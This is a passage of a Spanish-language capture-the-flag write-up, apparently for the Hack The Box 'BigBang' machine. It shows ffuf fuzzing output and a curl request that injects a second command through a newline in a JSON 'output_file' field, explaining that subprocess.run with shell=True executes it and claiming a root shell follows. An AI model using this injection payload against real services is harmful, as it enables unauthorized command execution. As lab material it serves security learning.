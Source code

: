 ```bash 
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                                                      
                                                                                                                                                                                             
       v2.1.0-dev                                                                                                                                                                            
________________________________________________                                                                                                                                             
                                                                                                                                                                                             
 :: Method           : POST                                                                                                                                                                  
 :: URL              : http://app.bigbang.htb:9090/command
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/alphanum-case-extra.txt
 :: Header           : Content-Type: application/json
 :: Header           : Authorization: Bearer <SNIP>
 :: Data             : {"command": "send_image", "output_file": "test.pngFUZZ"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: dangerous
________________________________________________

'                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 295ms]
&                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 342ms]
?                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 336ms]
(                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 396ms]
<                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 392ms]
>                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 436ms]
$                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 461ms]
;                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 471ms]
!                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 463ms]
*                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 521ms]
+                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 463ms]
)                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 463ms]
#                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 493ms]
%                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 543ms]
]                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 354ms]
^                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 392ms]
`                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 395ms]
[                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 441ms]
{                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 227ms]
|                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 227ms]
}                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 222ms]
:: Progress: [95/95] :: Job [1/1] :: 97 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```


Y con esto se logra la inyección de comando, añadiendo un salto de línea:
```bash
$ curl app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.png\nping -c 1 10.10.14.6"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token"
```

Esto porque en python, con `subprocess.run`, si esta seteado `shell=True`, cada linea funciona como otro comando

Con esto se crea una shell con permisos de root(bit SUID). 


